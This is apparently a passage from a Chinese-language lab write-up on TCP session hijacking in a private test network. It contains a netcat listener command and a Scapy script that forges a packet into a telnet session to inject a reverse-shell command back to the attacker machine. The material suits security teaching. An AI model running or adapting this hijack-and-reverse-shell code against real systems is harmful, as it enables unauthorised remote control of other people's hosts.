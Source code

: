 

攻击机使用netcat监听

`nc -lvnp 9090`

![image-20230417221517516](assets/image-20230417221517516.png)

劫持并反向shell

hijacking_auto_shell.py

```python
#!/usr/bin/python3
from scapy.all import *

server  = "10.9.0.2"   # Server IP
client  = "10.9.0.3"   # Client IP
PORT = 23             # Server telnet port

def spoof(pkt):
    old_ip  = pkt[IP]
    old_tcp = pkt[TCP]

    #############################################
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, ack = old_tcp.seq + len(old_tcp.payload), flags = "A")
    data = "\r/bin/bash -i > /dev/tcp/10.9.0.3/9090 0<&1 2>&1\r"
    #############################################

    pkt = ip/tcp/data
    send(pkt,verbose=0)
    ls(pkt)
    quit()

f = 'tcp and src host {} and dst host {} and src port {}'.format(server, client, PORT)
sniff(filter=f, prn=spoof, iface="br-6c895804349d")
```

开始劫持会话

运行: `sudo python hijacking_auto_shell.py`

![image-20230417221825092](assets/image-20230417221825092.png)